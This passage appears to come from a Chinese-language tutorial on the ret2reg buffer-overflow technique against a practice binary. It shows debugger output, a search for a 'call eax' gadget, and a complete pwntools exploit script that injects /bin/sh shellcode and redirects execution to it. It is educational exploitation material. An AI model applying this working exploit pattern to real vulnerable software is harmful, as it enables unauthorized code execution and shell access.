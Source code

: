 ```plain
[----------------------------------registers-----------------------------------]
EAX: 0xffffccb0 --> 0x333231 ('123')
EBX: 0x0 
ECX: 0xffffd19a --> 0x333231 ('123')
EDX: 0xffffccb0 --> 0x333231 ('123')
ESI: 0xf7fb7000 --> 0x1afdb0 
EDI: 0xf7fb7000 --> 0x1afdb0 
EBP: 0xffffced8 --> 0x0 
ESP: 0xffffcebc --> 0x8048450 (<main+36>:   add    esp,0x10)
EIP: 0x804842b (<evilfunction+32>:  ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

可以发现eax的值仍然为缓冲区地址(思路第一步完成)

查找jmp eax或call eax等指令

```plain
ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
或
objdump -d ret2reg | grep *%eax
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
0x0804841f : call dword ptr [eax - 0x18]
0x080484ff : call dword ptr [eax - 0x80000000]
0x08048373 : call eax
```

将EIP(即返回地址)设置成call eax的指令地址(思路第二部完成)

编写脚本，向缓冲区写入shell（思路第三步完成）

```plain
# -*- coding: utf-8 -*-
from pwn import *

#buf:0x208
#ebp:4
shell = asm(shellcraft.sh())
payload = shell+(0x20c-len(shell))*'A'
payload += p32(0x08048373)

p = process(argv=['./ret2reg',payload])
#gdb.attach(p)
p.interactive()
```

说明：0x20c怎么来的，见链接视频过程，不详述：[https://www.bilibili.com/video/av290246951/](https://www.bilibili.com/video/av290246951/)

```plain
gdb-peda$ run `python -c "print 'a'*0x204"`
```
